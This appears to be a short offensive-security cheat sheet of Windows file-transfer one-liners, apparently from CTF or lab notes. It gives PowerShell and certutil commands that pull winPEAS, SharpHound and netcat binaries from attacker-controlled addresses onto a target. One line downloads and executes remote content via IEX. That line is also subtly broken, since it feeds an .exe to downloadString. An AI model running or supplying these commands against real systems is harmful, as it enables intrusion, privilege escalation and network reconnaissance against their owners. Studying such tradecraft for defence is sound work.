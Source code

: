 
## powershell

```powershell
powershell Invoke-WebRequest -Uri "http://10.10.14.7/winPEASany.exe" -OutFile "winPEASany.exe" 
```
```sh
powershell Invoke-WebRequest -Uri "http://10.10.14.48/SharpHound.exe" -OutFile "SharpHound.exe" 
```

`upload via web`
```powershell
powershell (new-object System.Net.WebClient).Downloadfile('http://192.168.1.36/nc.exe', 'nc.exe')
```


`download and execute a script`

```pwsh
powershell IEX(New-Object Net.WebClient).downloadString(\"http://192.168.1.36/ncat.exe\")
```


## certutil.exe

```powershell
certutil.exe -urlcache -split -f "http://10.10.14.7/winPEASany.exe" winpeas.exe
```
